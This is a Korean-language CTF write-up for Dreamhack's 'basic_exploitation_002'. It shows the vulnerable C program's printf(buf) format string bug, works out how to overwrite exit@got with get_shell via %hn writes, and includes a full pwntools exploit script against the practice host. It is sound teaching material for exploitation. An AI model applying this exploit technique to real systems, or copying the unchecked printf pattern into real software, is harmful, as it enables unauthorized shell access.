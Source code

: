 ```c
// Name: basic_exploitation_002.c

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```

```bash
$ checksec ./basic_exploitation_002
[*] './basic_exploitation_002'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

# 코드 분석

* `basic_exploitation_002.c:31-32` : `read` 함수를 통해 얻은 문자열 `buf`를 곧바로 `printf` 함수의 인자로 입력하므로 format string bug를 활용하면 임의주소 읽기, 쓰기가 가능하다.
* `basic_exploitation_002.c:34` : `exit(0)`을 호출하고 있으므로 `exit_got`를 `get_shell`의 주소로 overwrite하면 `get_shell`을 호출하게 할 수 있다.

# 공격

Format string bug를 활용하여 공격을 진행해야 함은 자명하므로 offset을 구하기 위해 주어진 바이너리 파일을 실행한 후, 터미널에 `"AAAA %p %p %p %p"`를 입력하자.

```bash
$ ./basic_exploitation_002 
AAAA %p %p %p %p
AAAA 0x41414141 0x20702520 0x25207025 0x70252070
...
```

위 출력 결과로부터, 입력한 문자열의 첫 4글자가 첫 번째 인자에 해당함을 알 수 있다.
따라서 첫 4바이트에 `exit@got`를 쓰고, `"%n"` format string을 활용하여 `exit@got`에 `get_shell`의 주소를 쓰게 하면 shell을 탈취할 수 있으리라는 것을 알 수 있다.

이제 gdb를 활용하여 `get_shell`의 주소를 얻어보면 다음과 같음을 알 수 있다.

```bash
pwndbg> info function
...
Non-debugging symbols:
...
0x08048609  get_shell
...
```

따라서 `"%n"` 이전까지 출력된 문자열의 길이가 `0x8048609` 바이트여야 함을 알 수 있다.
이는 10진법으로 표기하면 `134514185`로, 이 정도 길이의 문자열은 출력하는 데에 걸리는 시간만 해도 `initialize` 함수에서 설정한 30초의 제한시간이 초과되어버릴 것이다.
따라서 약간의 꼼수를 활용할 필요가 있다.
Format string에는 4바이트를 읽는 `"%n"` 외에도 2바이트를 읽는 `"%hn"`, 1바이트를 읽는 `"%hhn"`이 존재한다.
이중 `"%hn"`을 활용하면, `exit@got`의 하위 2바이트에 `0x8609`, `exit@got`의 상위 2바이트에 `0x804`를 쓸 수 있을 것이다.
이제 이 전략을 가지고 익스플로잇 코드를 작성하면 flag를 얻을 수 있다.

```python
# Name: basic_exploitation_002.py

from pwn import *

def slog(name,addr): success(f'{name}: {hex(addr)}')

HOST = 'host3.dreamhack.games'
PORT = 19985

p = remote(HOST,PORT)
e = ELF('./basic_exploitation_002')

exit = e.got['exit']

payload = p32(exit)
payload += p32(exit+2)
payload += '%{}c'.format(0x8609 - 8).encode()
payload += b'%1$hn'
payload += '%{}c'.format(0x804 - 0x8609 + 0x10000).encode()
payload += b'%2$hn'

p.send(payload)
p.interactive()
```